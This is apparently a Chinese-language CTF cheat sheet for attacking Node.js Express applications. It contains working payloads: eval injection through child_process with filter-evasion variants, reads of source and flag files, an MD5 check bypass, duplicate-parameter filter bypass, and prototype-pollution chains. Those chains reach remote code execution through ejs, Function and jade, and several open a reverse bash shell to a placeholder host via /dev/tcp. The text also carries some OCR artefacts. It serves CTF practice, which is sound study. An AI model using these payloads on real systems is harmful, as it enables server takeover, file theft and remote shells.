 ExpreSs是一个流行的Node.jsWeb框架，它提供了许多有用的功能来构建Web应用程序。
## **函数特性**
```
Character.toUpperCase()函数，字符ı会转变为I，字符ſ会变为S
Character.toLowerCase()函数，字符İ会转变为i，字符K会转变为k
```

绕过md5
```
 if(a && b && a.length===b.length && a!==b && md5(a+flag)===md5(b+flag)){
  	res.end(flag);

?a[x]=1&b[x]=2或者a[:]=1&b[:]=1
?a[x]=1&b[x]=2 相当于是说，a和b都是引用数据类型（对象类型），
a={'x':'1'}
b={'x':'2'}
那么在 a+flag和 b+flag 时，他们的结果就会都是［objectObject]flag{xxx}，那么md5值自然就是一样的了。
```


^
## **eval命令执行**

```
eval(require("child_process").execSync('ls'))


?eval=require("child_process").execSync('ls')

?eval=require('child_process').execSync('ls').toString()

?eval=require("child_process")['exe'%2B'cSync']('ls')

?eval=require('child_process').spawnSync( 'ls', [ './' ] ).stdout.toString()

?eval=global.process.mainModule.constructor._load('child_process').execSync('ls')
```
```
//读文件夹，读文件函数
?eval=require('fs').readdirSync(".")
?eval=require('fs').readFileSync('./fl00g.txt','utf8');
```
```
//字符串拼接
?eval=var s='global.process.mainModule.constructor._lo';var b="ad('child_process').ex";var c="ec(%27ls>public/1.txt%27);";eval(s%2Bb%2Bc)%3B
```

^
有过滤exec|load。函数evalstring.search(/exec|load/i)
```
构造exec
?eval=require("child_process")['exe'%2B'cSync']('ls')

?eval=require( 'child_process' ).spawnSync( 'ls', [ '.' ] ).stdout.toString()
?eval=require( 'child_process' ).spawnSync( 'cat', [ 'f*' ] ).stdout.toString()
```

查看目录和源码
```
?eval=__filename 可以看到路径为/app/routes/index.js 
?eval=__dirname  看到/app/routes/
?eval=require('fs').readFileSync('/app/routes/index.js', 'utf-8')   查看源码
```

^
## **传参绕过**
#### **传json，不能有逗号，2c字符**
```
router.get('/', function(req, res, next) {
  res.type('html');
  var flag = 'flag_here';
  if(req.url.match(/8c|2c|\,/ig)){
  	res.end('where is flag :)');
  }
  var query = JSON.parse(req.query.query);
  if(query.name==='admin'&&query.password==='ctfshow'&&query.isVIP===true){
  	res.end(flag);
  }else{
  	res.end('where is flag. :)');
  }
});
```
```
/?query={"name":"admin","password":"ctfshow","isVIP":true} 被检测到,

同名参数绕过，这里还要把c进行url编码，否则"c会匹配到2c
?query={"name":"admin"&query="password":"%63tfshow"&query="isVIP":true}
```

^
#### **parameterLimit突破**
express提供了许多选项来配置参数解析。其中之一是parameterLimit选项。
parameterLimit选项用于指定query string 或者requestpayload的最大数量。默认情况下，它的值是1000。
如果你的应用程序需要解析大量的查询字符串或者请求负载，你可能需要增加这个限制。例如，如果你的应用程序需要处理非常长的查询字符串，你可以将parameterLimit设置为一个更高的值。





^
^
## **原型链污染**
类似于merge函数用于合并两个或多个对象的属性，将一个或多个源对象的属性复制到目标对象上。
可能造成原型链污染。
```
 var secert = {};
 let user = {};
 utils.copy(user,req.body);  //这里的copy类似merge函数。req.body是入口
  if(secert.ctfshow==='36dboy'){
    res.end(flag);
  }
```
已知secert是对象类型，secert的原型类就是Object。
```
如果在secert继承到Object中的一个类的prototype有ctfshow属性值为36dboy，
那么secert.ctfshow值也存在为36dboy。

又每一个对象都有__proto__属性，通过secert.__proto__可以修改父类的Object.prototype，结合copy函数和json最终修改Object类prototype，定义了一个ctfshow值为36dboy

function copy(object1, object2){
    for (let key in object2) {
        if (key in object2 && key in object1) {
            copy(object1[key], object2[key])
        } else {
            object1[key] = object2[key]
        }
    }
  }

第一次循环，key 是 __proto__，因为每一个对象都有 __proto__ 属性，所以判断为TRUE，然后递归Q 调用copy函数。这次传参，object1 是object1['__proto__']，就是 object{....}，回溯到了Object类了
object2是object2['__proto__']， 就是{ ctfshow: "36dboy" }。此时 key为 ctfshow。因为Object没有ctfshow这个变量，所以经过判断为FALSE，进入else，执行 object1['ctfshow'」=object2［'ctfshow'］。
将Object类的ctfshow的值改为了 36dboy，那么所有继承object类的类都会有属性ctfshow=36dboy，
也就是所有类，因为所有类都是object的子类。
```
于是POST传递请求体
```
{"__proto__":{"ctfshow":"36dboy"}}
```






^
## **原型链污染组合**
#### **ejs模板漏洞导致rce**
package.json中存在ejs
```
{"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/[vps-ip]/[port] 0>&1\"');var __tmp2"}}
```
继承的继承场景
```
{"__proto__":{"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/xxx/xxx 0>&1\"');var __tmp2"}}}
```

^
#### **污染函数Function创建的函数体，变成危险函数**
```
已知返回res.render('api', { query: Function(query)(query)});
```
污染query参数即可
```
{"__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').exec('bash -c \"bash -i >& /dev/tcp/[vps-ip]/[port] 0>&1\"')"}}


案例：
function copy(object1, object2){
    for (let key in object2) {
        if (key in object2 && key in object1) {
            copy(object1[key], object2[key])
        } else {
            object1[key] = object2[key]
        }
    }
  }
 var user ={}
 body=JSON.parse('{"__proto__":{"query":"return 123"}}');
 copy(user,body);
 console.log(Function(query)(query));
//输出 123
```

^
**继承的继承场景**
```
 var user = new function(){
    this.userinfo = new function(){
    this.isVIP = false;
    this.isAdmin = false;
    this.isAuthor = false;     
    };
  }
 utils.copy(user.userinfo,req.body);
 if(user.userinfo.isAdmin){
   res.end(flag);
  }else{
   return res.json({ret_code: 2, ret_msg: '登录失败'});  
  }
```
req.body是入口，user.userinfo我们要通过这个污染Object,`userinfo` 的原型不是 `Object` 对象， `userinfo.__proto__.__proto__` 才是 `Object` 对象。
于是
```
{"__proto__":{"__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').exec('bash -c \"bash -i >& /dev/tcp/IP/端口 0>&1\"')"}}
```



^
#### **jade原型链污染**
package.json中存在jade。
在login页面打上去之后随便访问下，就会反弹。
```
{"__proto__":{"__proto__": {"type":"Block","nodes":"","compileDebug":1,"self":1,"line":"global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/xxx/810>&1\"')"}}}
```